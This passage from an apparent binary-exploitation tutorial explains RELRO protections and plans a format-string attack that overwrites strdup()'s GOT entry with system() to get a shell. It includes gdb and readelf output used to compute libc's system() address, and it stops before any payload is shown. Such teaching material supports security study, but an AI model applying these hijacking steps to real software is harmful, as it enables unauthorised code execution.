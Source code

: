 **Partial RELRO:**  

    * the ELF sections are reordered so that the ELF internal data sections (.got, .dtors, etc.) precede the program's data sections (.data and .bss)
    * non-PLT GOT is read-only
    * GOT is still writeable
    
**Full RELRO:**  

    * supports all the features of partial RELRO
    * the entire GOT is also (re)mapped as read-only
    
    
If you're struggling with the whole Global Offset Table mess I strongly recommend reading these articles on 0x00sec:
    
1. [Linux Internals ~ Dynamic Linking Wizardry](https://0x00sec.org/t/linux-internals-the-art-of-symbol-resolution/1488)!  
2. and [Linux Internals ~ The Art Of Symbol Resolution](https://0x00sec.org/t/linux-internals-dynamic-linking-wizardry/1082) for an even more detailed introduction!

If you're still continuing reading without prior knowledge here is the basic approach I'm gonna take:

    1. Find a way to get a shell
    2. Calculate the bytes to write for a format string attack
    3. Overwrite the GOT entry for strdup() with a function we can actually use for an exploit: system()    
    

First we want to examine where our local libc is located.   
We can do this from within gdb as well:  

    gef➤  vmmap libc
    Start      End        Offset     Perm Path
    0xf7dfd000 0xf7fad000 0x00000000 r-x /lib/i386-linux-gnu/libc-2.23.so       <-
    0xf7fad000 0xf7faf000 0x001af000 r-- /lib/i386-linux-gnu/libc-2.23.so
    0xf7faf000 0xf7fb0000 0x001b1000 rw- /lib/i386-linux-gnu/libc-2.23.so
    gef➤  

The base address of the used libc is at `0xf7dfd000`.  

Next we want to find a way to pop a shell.  
What could be better than `system()`:  

    $ readelf -s /lib/i386-linux-gnu/libc-2.23.so | grep system
        245: 00112ed0    68 FUNC    GLOBAL DEFAULT      13 svcerr_systemerr@@GLIBC_2.0
        627: 0003ada0    55 FUNC    GLOBAL DEFAULT      13 __libc_system@@GLIBC_PRIVATE
        1457: 0003ada0    55 FUNC    WEAK   DEFAULT     13 system@@GLIBC_2.0            <-

`system()` offset in glibc is `0x3ada0`.  

Let's add up those to addresses to get the final address of `system()` in the library.   

> 0xf7dfd000 + 0x3ada0 = 0xf7e37da0

Let's check if we didn't fail our maths:

    gef➤ x 0xf7e37da0
    0xf7e37da0 <__libc_system>:	0x8b0cec83
    gef➤

